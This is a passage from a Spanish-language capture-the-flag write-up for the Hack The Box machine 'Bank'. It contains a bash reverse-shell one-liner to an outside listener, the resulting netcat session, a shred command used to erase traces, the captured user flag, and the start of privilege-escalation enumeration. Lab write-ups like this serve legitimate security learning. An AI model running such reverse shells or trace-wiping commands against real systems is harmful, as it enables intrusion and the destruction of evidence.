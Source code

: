 - Nos enviamos una shell a la máquina a travaes del one liner `bash -c "bash -i >& /dev/tcp/10.10.14.168/443 0>&1"`

![](../assets/images/Bank/oneliner.png)


```ruby
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.168] from (UNKNOWN) [10.10.10.29] 58932
bash: cannot set terminal process group (1071): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bank:/var/www/bank/uploads$ whoami
whoami
www-data
www-data@bank:/var/www/bank/uploads$ 

```

- Borramos todos los archivos para no dejar rastro con la siguiente linea de comandos: `shred -zun 10 -v cdm.htb`

- Esta es la primera flag

```ruby
www-data@bank:/var/www$ cd /home/
www-data@bank:/home$ ls 
chris
www-data@bank:/home$ cd chris/
www-data@bank:/home/chris$ ls
user.txt
www-data@bank:/home/chris$ cat user.txt 
b500c02422b0f328632ce17c8a4629e5

```
<h3 style="text-align:center" id="escalada-de-privilegios">ESCALADA DE PRIVILEGIOS</h3><hr>

<h3 style="text-align:center" id="suid">ESCALADA DE PRIVILEGIOS POR SUID</h3><hr>



- Confirmamos la versión del sistema.

```ruby
www-data@bank:/home/chris$ lsb_release -a 
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
www-data@bank:/home/chris$ 
```

- Lo primero que haces es un `id` para ver a que grupos pertenecemos
